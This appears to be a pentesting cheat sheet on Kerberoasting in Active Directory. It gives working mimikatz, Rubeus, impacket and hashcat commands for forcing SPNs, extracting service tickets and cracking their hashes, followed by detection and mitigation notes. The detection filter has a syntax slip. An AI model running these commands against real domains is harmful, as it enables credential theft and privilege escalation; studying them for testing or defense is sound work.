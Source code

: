 # Kerberoasting

## Overview

- Request service ticket for any service with registered SPN
- Use ticket to crack service password
- Use BloodHound to find Kerberoastable accounts
- If service is a domain admin we can gather loot and dump the NTDS.dit
- If not, you can use it to log into other systems and pivot or escalate
- Use cracked password for password spraying

## Exploitation

### Find Accounts with SPN

```powershell
# Windows built-in
setspn -T DOMAIN -Q ​*/*

# PowerView
Get-NetUser -SPN | Select -ExpandProperty serviceprincipalname

# AD Module
Get-ADUser -Filter { ServicePrincipalName -ne "$null" } -Properties ServicePrincipalName
```

### Force Set SPN

If we have enough rights on user (GenericAll/GenericWrite) we can set an SPN for a user then request a TGS for it for Kerberoasting.

```powershell
# Enumerate the permissions for RDPUsers on ACLs using PowerView 3.0/dev
# Enumerate the permissions for RDPUsers on ACLs using PowerView 3.0/dev
Invoke-ACLScanner -ResolveGUIDs | ?{ $_.IdentityReferenceName -match "RDPUsers" }

# Check if user already has a SPN
# Using PowerView 3.0
Get-DomainUser -Identity support572user | Select serviceprincipalname

# Using AD Module
Get-ADUser -Identity support572user -Properties ServicePrincipalName | Select ServicePrincipalName

# Set a SPN for the user (must be unique in domain)
# Using PowerView 3.0
Set-DomainObject -Identity support572user -Set @{serviceprincipalname="dcorp/bufusvc"}

# Using AD Module
Set-ADUser -Identity support572user -ServicePrincipalNames @{Add="dcorp/bufusvc"}
```

### Extracting Tickets

```powershell
# PowerShell built-in
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# PowerView
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Check if TGS has been granted
klist

# Extract tickets with mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'

python.exe .\tgsrepcrack.py .\10k-worst-pass.txt ".\1-40a10000-student572@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi"
```

### Extracting Hashes

```powershell
# Rubeus
# Find all kerberoastable users and save hashes to file
.\Rubeus.exe kerberoast /outfile:hashes.kirbi

# For specific SPN
.\Rubeus.exe kerberoast /spn:MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local /outfile:mssqlsvc.kirbi

# Using Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII ticket.kirbi

# Remotely with impacket
GetUserSPNs.py dcorp-dc/user:password -dc-ip 10.10.10.10 -request

# Crack hash with hashcat
hashcat -a 0 -m 13100 hash.txt rockyou.txt
```

## Detection

- Security event ID 4769: A Kerberos ticket was requested
- Filter results based on the following information from logs
  - Service name should not be krbtgt
  - Service name does not end with $ (to filter out machine accounts used for services)
  - Account name should not be machine@domain (to filter out requests from machines)
  - Failure code is '0x0' (to filter out failures, 0x0 is success)
  - Most importantly, ticket encryption type is 0x17

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$_.Message.split"`n")[8] -ne 'krbtgt' -and $_.Message.split"`n")[8] -ne '*$' -and $_.Message.split"`n")[3] -notlike '*$@*' -and $_.Message.split"`n")[18] -like '*0x0*' -and $_.Message.split"`n")[17] -like "*0x17*"} | Select -ExpandProperty message
```

## Mitigation

- Strong service account passwords
- Don't make service accounts domain admins
- Use Managed Service Accounts (Automatic change of password periodically and delegated SPN Management)
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/jj128431(v=ws.11)

